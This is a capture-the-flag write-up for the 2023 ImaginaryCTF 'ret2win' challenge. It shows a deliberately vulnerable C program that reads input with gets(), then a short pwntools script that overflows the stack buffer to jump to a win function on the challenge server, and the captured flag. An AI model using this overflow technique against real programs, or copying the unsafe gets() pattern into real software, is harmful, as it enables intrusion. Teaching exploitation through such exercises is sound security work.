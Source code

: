 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Binary Exploitation
  - Stack overflow
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

> ```sh
> nc ret2win.chal.imaginaryctf.org 1337
> ```

### Attached

[ret2win.zip](attached/ret2win.zip)

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```
